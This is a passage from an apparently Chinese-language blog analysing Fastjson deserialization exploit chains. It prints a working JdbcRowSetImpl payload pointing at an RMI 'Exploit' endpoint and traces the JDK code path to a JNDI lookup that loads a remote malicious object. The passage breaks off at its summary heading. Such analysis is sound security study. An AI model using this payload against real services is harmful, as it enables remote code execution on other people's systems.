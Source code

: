 Fastjson已被大家分析过很多次，本文主要是对三种利用链做分析和对比
<a name="wxLC2"></a>
### JdbcRowSetImpl
```java
String payload = "{\n" +
    "    \"a\":{\n" +
    "        \"@type\":\"java.lang.Class\",\n" +
    "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
    "    },\n" +
    "    \"b\":{\n" +
    "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
    "        \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\",\n" +
    "        \"autoCommit\":true\n" +
    "    }\n" +
    "}";
JSON.parse(payload);
```
payload中的a对象用来当作缓存绕过，需要关注的是第二个对象<br />注意到其中"autoCommit":true，反序列化时，会反射设置属性，调用com.sun.rowset.JdbcRowSetImpl.setAutoCommit()
```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        // conn为空才会调用到这里
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }
}
```
跟入`com.sun.rowset.JdbcRowSetImpl.connect()`，触发`lookup`，加载远程恶意对象
```java
protected Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            // conn为空且dataSourceName不为空才会到这里
            InitialContext var1 = new InitialContext();
            // 成功触发JNDI注入
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```
根据lookup到`com.sun.jndi.rmi.registry.RegistryContext.lookup()`
```java
public Object lookup(Name var1) throws NamingException {
    if (var1.isEmpty()) {
        ......
            return this.decodeObject(var2, var1.getPrefix(1));
    }
}
```
跟入`decodeObject`方法，看到加载了远程`Reference`绑定的恶意对象
```java
Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
return NamingManager.getObjectInstance(var3, var2, this, this.environment);
```
总结：
